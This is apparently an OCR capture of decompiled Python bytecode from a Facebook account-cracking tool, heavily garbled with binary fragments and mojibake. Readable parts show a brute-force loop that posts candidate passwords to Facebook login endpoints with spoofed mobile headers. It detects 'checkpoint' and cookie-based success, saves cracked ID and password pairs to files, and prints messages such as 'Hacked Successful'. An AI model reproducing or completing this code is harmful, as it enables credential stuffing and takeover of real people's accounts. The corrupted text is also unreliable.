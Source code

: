 � �t� �d�t� �d	�tttt	�� �� �t� �d
���f t j��  t�t�}t�t�}t�� }|D �]}�z|j�ddd
d|ddddddddddd�� |jd|d|i|	dtd�}t�dt|j ���!d�t�dt|j ���!d�| d d!|d"�}d#�d$d%� |j"�#� �$� D ��}|d&7 }dddd'd(d)ddddddd*ddd+�}	|j%d|d|i|	dtd�}
d,|
j"�#� �&� v �r7t't(d-�� t)d.t*� d/| � d0|� t+� �� t,d1t- d2��| d0 | d3 � t.�/| d0 | � t
d7 a
W  ned4|j"�#� �&� v �r�td7 a|
j"�#� }d#�d5d%� |j"�#� �$� D ��}t't(d6�� t)d.t
� d7| � d0|� d0|� t+� �	� t,d8t0 d2��| d0 | d3 � t1t2|� W  nW q� tj3j4�y�   t5�6d9� Y q�w td7 ad S ):Nr�   u   
ðŸ‡®ðŸ‡© r�   ZMbasicr�   r;   u	   ]â€”u
   ]â€”[r	  r
  zp.facebook.comr�   �?1rO   r  r
  r  r  r  r  zhttps://p.facebook.com/r  r�   )r  r�   �sec-ch-ua-mobiler�   r�   r�   r  r  r  r  r  r  r�   r  r�   r3  ri   Fr4  r  r   r   r!  r"  r#  r'  c                 S   r(  r)  rL   r*  rL   rL   rM   r.  �  r/  zcrackfree.<locals>.<listcomp>r0  zhttps://p.facebook.comr1  z�Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36zlhttps://p.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2Fr2  r6  uQ     [red]     ðŸ˜­ MOHON MAAF ANDA BELUM BERUNTUNG MOHON BERSABAR ðŸ˜­[red]r�   z
>> [Tutul-Cp]r�   r�   rJ   r<   r7  c                 S   r(  r)  rL   r*  rL   rL   rM   r.  �  r/  uH   [blue]      💔 Ok 💔 Hacked Successful id Login Karo Fast😱 [blue]z
>> [Tutul-Ok]r�   r�   )7rY   rZ   rH   r=  r+   r�   r�   r8  r�   rm   r#   r  r�   r  r�   r�   r9  r:  r[   r�   r�   r@   r;  rB   r�   r�   r�   rC   rH  rE   r�   rG   rD   r�   rk   r>  r?  r@  rA  r�   r�   r   r&   r)   r=   r�   rB  rA   r�   rC  rD  rw   rx   r\   r]   )
r  r  r�   rI   rE  r�   rF  rI  rJ  rK  rL  rM  rN  rL   rL   rM   r  �  sF   �



,:$ 
$ 
�r  c                  C   s�  t �ttttttg�}td t	t
� }d}t �t�}dd| i}t �t�}t �t
�}t�� }	tj�d|tt	t
�ttt|�t|�tf � tj��  |D �]}
�z�|	j�dd|ddd	d
ddd
dddd�
� |	�d|  d �}t�dt|j���d�t�dt|j���d�| dd|
d�}|	j�ddddd|dd	d
ddd
d|  d ddd�� |	j d |d!|
it!d"|d#�}d$�"d%d&� |j#�$� �%� D ��}
|
d'7 }
d(|j#�$� �&� v �r$d)t'v r�t(�)| d* |
 � t*| |
� n?d)t+v �rt,d+� d,| � d-|
� �}t-|d.d/�}t.t-|d0d1�� t/d2t0 d3��| d* |
 d+ � t(�)| d* |
 � td7 anW qKW  �n9d4|	j#�$� �&� v �rHd5d6i}d7t1v �r�|j#�$� }d$�"d8d&� |	j#�$� �%� D ��}t/d9t2 d3��| d* |
 d* | d+ � t,d+� d,| � d:|
� d;|� �}t-|d<d/�}t.t-|d=d1�� td7 aW  n�d)t1v �rG|j#�$� }d$�"d>d&� |	j#�$� �%� D ��}t/d?t2 d3��| d* |
 d* | d+ � | }d@}t�� }|jdA||dB�j}|jdC||dB�j}|dD7 }t�3dEt|��}d}|D ]}|dF|� dG|dH � dI|d � dJ�7 }|d7 }�q�dH}|dK7 }t�3dEt|��}dH}|D ]}|d7 }|dL|� dG|dH � dI|d � dM�7 }�qt,d+� dN| � d:|